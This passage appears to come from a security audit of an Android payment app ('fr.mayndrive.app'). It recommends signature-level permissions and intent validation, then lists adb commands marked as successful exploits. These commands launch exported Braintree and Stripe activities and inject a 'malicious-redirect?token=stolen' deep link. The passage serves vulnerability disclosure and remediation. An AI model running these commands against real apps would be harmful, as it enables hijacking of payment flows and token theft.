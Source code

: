 ```xml
```

### 2. **Custom Permissions** (Implement ASAP):
```xml
<!-- Define custom permission -->
<permission
    android:name="com.mayndrive.payment.PERMISSION"
    android:protectionLevel="signature" />

<!-- Apply to activities that must be exported -->
<activity
    android:name="com.braintreepayments.api.DropInActivity"
    android:exported="true"
    android:permission="com.mayndrive.payment.PERMISSION" />
```

### 3. **Intent Validation** (Code Changes):
```java
// Add to all payment activities
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    
    // Validate intent source
    if (!isTrustedSource(getIntent())) {
        finish();
        return;
    }
    
    // Validate payment parameters
    if (!validatePaymentData(getIntent())) {
        finish();
        return;
    }
    
    // Proceed with secure payment flow
    initializePaymentFlow();
}
```

## 📊 Test Evidence

### Successful Exploit Commands:
```bash
# Direct activity launches (ALL SUCCESSFUL)
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.DropInActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.link.LinkRedirectHandlerActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.BraintreeDeepLinkActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity

# Malicious intent injections (3/5 SUCCESSFUL)
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.link.LinkRedirectHandlerActivity
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity

# Deep-link hijacking (ALL SUCCESSFUL)
```